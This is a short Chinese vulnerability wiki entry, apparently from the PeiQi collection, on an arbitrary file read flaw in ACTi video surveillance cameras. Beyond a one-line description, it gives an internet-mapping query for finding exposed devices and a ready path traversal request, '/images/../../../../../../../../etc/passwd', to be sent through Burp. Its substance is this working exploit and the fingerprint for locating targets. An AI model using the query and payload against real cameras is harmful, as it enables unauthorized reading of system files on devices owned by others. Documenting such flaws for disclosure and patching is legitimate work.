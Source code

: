 # ACTI 视频监控 images 任意文件读取漏洞

## 漏洞描述

ACTI 视频监控 存在任意文件读取漏洞

## 漏洞影响

<a-checkbox checked>ACTI摄像头</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ACTi-视频监控"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/ac-1.png)



使用Burp抓包



```plain
/images/../../../../../../../../etc/passwd
```



![img](/assets/PeiQi-Wiki/img/ac-2.png)